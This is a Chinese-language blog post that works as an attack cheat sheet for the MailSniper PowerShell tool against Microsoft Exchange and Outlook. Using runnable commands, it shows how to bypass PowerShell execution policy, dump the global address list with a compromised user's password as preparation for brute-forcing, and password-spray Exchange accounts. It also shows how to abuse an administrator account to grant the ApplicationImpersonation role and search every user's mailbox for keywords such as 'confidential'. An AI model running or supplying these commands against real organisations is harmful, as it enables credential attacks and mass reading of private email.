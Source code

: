 # mailsniper.ps1


> 下载地址：https://github.com/dafthack/MailSniper.git



## mailsniper.ps1获取outlook所有联系人	

> 收集邮箱，为后续爆破准备



#### 前提

掌握其中一个用户邮箱的账户密码，并可以登录outlook





#### 利用

命令格式

```bash
# 在域内机器上执行
powershell -exec bypass
Import-Module .\MailSniper.ps1
Get-GlobalAddressList -ExchHostname outlook地址 -UserName 域名\域用户名 -Password 已知的邮箱密码 -OutFile 导出结果.txt
```



1.目标outlook搭建在自己的服务器上

```bash
ExchHostname指向自己的邮箱服务器地址即可
```



2.目标outlook在office365中

```bash
一样的道理，只不过把ExchHostname指向outlook.office365.com即可，username使用完整的邮箱，而不仅仅是用户名。

```







#### 爆破exchange（指定密码爆破邮箱）

```bash
powershell -exec bypass
Import-Module .\MailSniper.ps1
Invoke-PasswordSprayEWS -ExchHostname owa2013.rootkit.org -UserList .\users.txt -Password Admin12345 -ExchangeVersion Exchange2013_SP1

# -ExchHostname：ping -a exchange服务器ip -> 得到主机名 -> 主机名拼接域名（如：owa2013.rootkit.org）
# -ExchangeVersion：若不知道可先不指定
```







#### MailSniper检索邮件内容

Mailsniper包含两个主要的cmdlet，分别是`Invoke-SelfSearch`和`Invoke-GlobalMailSearch`，用于检索邮件中的关键字。

```bash
## 查找当前用户的Exchange邮箱数据
Invoke-SelfSearch -Mailbox zhangsan@fb.com -Terms *机密* -Folder 收件箱 -ExchangeVersion Exchange2013_SP1
# 查找邮件内容中包含pwn字符串的邮件，-Folder参数可以指定要搜索的文件夹，默认是inbox，使用时最好指定要搜索的文件夹名称（或者指定all查找所有文件），因为该工具是外国人写的，Exchange英文版收件箱为Inbox，当Exchange使用中文版时收件箱不为英文名，默认查找inbox文件夹会因找不到该文件而出错

## 查找所有用户的Exchange邮箱数据
Invoke-GlobalMailSearch -ImpersonationAccount zhangsan -ExchHostname test2k12 -AdminUserName fb.com\administrator -ExchangeVersion Exchange2013_SP1 -Term "*内部邮件*" -Folder 收件箱
# 利用administrator管理员用户为普通用户zhangsan分配ApplicationImpersonation角色，检索所有邮箱用户的邮件中，包括“内部邮件”关键字的内容
```



















































































































---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/mailsniper-ps1/  

